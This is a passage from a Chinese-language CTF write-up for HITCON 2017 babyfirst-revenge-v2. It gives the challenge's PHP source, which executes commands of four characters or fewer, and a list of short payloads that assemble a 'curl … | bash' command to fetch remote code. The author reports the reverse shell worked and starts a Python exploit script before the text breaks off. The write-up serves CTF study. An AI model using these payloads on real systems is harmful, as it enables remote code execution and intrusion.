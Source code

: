 #### HITCON 2017 babyfirst-revenge-v2

搭建环境上文有。

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

直接抓包。

```
>sl
>ht-
>g\>
>dir
*>v
>rev
*v>a
>sh
>ba\
>\|\
>4x\
>0.\
>2x\
>7.\
>5\
>3.\
>1x\
>\ \
>rl\
>cu\
sh a
sh g
```

![dd4Sde.png](https://s1.ax1x.com/2020/08/22/dd4Sde.png)

burp运行完之后可以看到，反弹shell成功。

![dd4noQ.png](https://s1.ax1x.com/2020/08/22/dd4noQ.png)

贴上大佬的脚本：

```
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
```